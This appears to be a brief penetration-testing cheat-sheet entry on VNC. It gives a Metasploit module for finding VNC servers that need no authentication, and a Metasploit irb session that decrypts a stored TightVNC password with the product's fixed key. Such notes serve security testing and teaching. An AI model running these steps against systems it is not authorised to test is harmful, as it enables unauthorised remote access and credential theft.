 # VNC

Enum with MSF:

```
msf > use auxiliary/scanner/vnc/vnc_none_auth
```




## TightVNC

* [https://github.com/frizb/PasswordDecrypts](https://github.com/frizb/PasswordDecrypts)

Decrypt TightVNC password with MSF:

```
msf > irb
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
=> "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["f0f0f0f0f0f0f0f0"].pack('H*'), fixedkey
=> "<DECRYPTED>"
```

